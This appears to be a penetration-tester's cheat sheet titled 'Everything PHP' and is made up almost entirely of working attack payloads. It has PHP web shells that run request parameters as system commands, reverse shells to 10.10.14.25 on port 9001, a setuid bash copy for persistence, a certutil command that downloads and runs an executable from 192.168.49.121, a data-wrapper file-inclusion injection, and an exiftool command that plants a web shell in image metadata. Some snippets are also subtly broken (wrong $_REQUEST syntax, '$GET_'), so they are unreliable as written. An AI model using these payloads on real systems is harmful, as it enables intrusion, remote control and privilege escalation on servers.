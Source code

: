 # Everything PHP
--------------------

```bash
<?php echo system($_REQUEST('cibbin')); ?>


<?php system($_REQUEST['cbbn']) ?>


<?php system($GET_['cmd']); ?>


<?php echo shell_exec("/bin/bash -i >& /dev/tcp/10.10.14.25/9001 0>&1");?>

echo shell_exec("cp /bin/bash /tmp/bitch;chmod +s /tmp/bitch");

$sock=fsockopen("10.10.14.25", 9001);
exec("/bin/sh -i <&3 >&3 2>&3");
```


1
```php
<?php 
$exec = system('certutil.exe -split -urlcache -f "http://192.168.49.121/shelly.exe" shelly.exe', $val); 
?> 
```

2
```php
<?php
$exec = system('shelly.exe', $val);
?>
```


PHP Wrappers:

```bash
http://10.11.1.35/menu.php?file=data:text/plain,<?php echo shell_exec("whoami") ?>
```

Execute command in exiftool:
```bash
exiftool -Comment='<?php echo "<pre>";
system($_GET['cmd']); ?>' shell.png;
```